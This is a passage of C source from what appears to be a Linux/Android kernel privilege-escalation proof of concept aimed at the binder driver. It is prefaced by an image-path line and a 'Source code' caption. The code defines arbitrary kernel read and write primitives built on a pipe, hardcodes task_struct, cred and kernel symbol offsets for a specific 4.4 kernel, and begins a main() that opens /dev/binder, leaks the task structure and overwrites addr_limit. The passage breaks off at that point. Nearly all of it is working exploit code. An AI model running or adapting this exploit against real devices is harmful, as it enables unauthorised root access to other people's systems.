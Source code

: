 ```cpp
  };
  int recvmsg_result = recvmsg(socks[0], &msg, MSG_WAITALL);
  printf("recvmsg() returns %d, expected %lu\n", recvmsg_result,
      (unsigned long)(iovec_array[IOVEC_INDX_FOR_WQ].iov_len +
      iovec_array[IOVEC_INDX_FOR_WQ + 1].iov_len +
      iovec_array[IOVEC_INDX_FOR_WQ + 2].iov_len));
}

int kernel_rw_pipe[2];
void kernel_write(unsigned long kaddr, void *buf, unsigned long len) {
  errno = 0;
  if (len > 0x1000) errx(1, "kernel writes over PAGE_SIZE are messy, tried 0x%lx", len);
  if (write(kernel_rw_pipe[1], buf, len) != len) err(1, "kernel_write failed to load userspace buffer");
  if (read(kernel_rw_pipe[0], (void*)kaddr, len) != len) err(1, "kernel_write failed to overwrite kernel memory");
}
void kernel_read(unsigned long kaddr, void *buf, unsigned long len) {
  errno = 0;
  if (len > 0x1000) errx(1, "kernel writes over PAGE_SIZE are messy, tried 0x%lx", len);
  if (write(kernel_rw_pipe[1], (void*)kaddr, len) != len) err(1, "kernel_read failed to read kernel memory");
  if (read(kernel_rw_pipe[0], buf, len) != len) err(1, "kernel_read failed to write out to userspace");
}
unsigned long kernel_read_ulong(unsigned long kaddr) {
  unsigned long data;
  kernel_read(kaddr, &data, sizeof(data));
  return data;
}
void kernel_write_ulong(unsigned long kaddr, unsigned long data) {
  kernel_write(kaddr, &data, sizeof(data));
}
void kernel_write_uint(unsigned long kaddr, unsigned int data) {
  kernel_write(kaddr, &data, sizeof(data));
}

// Linux localhost 4.4.177-g83bee1dc48e8 #1 SMP PREEMPT Mon Jul 22 20:12:03 UTC 2019 aarch64
// data from `pahole` on my own build with the same .config
#define OFFSET__task_struct__mm 0x520
#define OFFSET__task_struct__cred 0x790
#define OFFSET__mm_struct__user_ns 0x300
#define OFFSET__uts_namespace__name__version 0xc7
// SYMBOL_* are relative to _head; data from /proc/kallsyms on userdebug
#define SYMBOL__init_user_ns 0x202f2c8
#define SYMBOL__init_task 0x20257d0
#define SYMBOL__init_uts_ns 0x20255c0

int main(void) {
  printf("Starting POC\n");
  //pin_to(0);

  dummy_page_4g_aligned = mmap((void*)0x100000000UL, 0x2000, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
  if (dummy_page_4g_aligned != (void*)0x100000000UL)
    err(1, "mmap 4g aligned");
  if (pipe(kernel_rw_pipe)) err(1, "kernel_rw_pipe");

  binder_fd = open("/dev/binder", O_RDONLY);
  epfd = epoll_create(1000);
  leak_task_struct();
  clobber_addr_limit();

```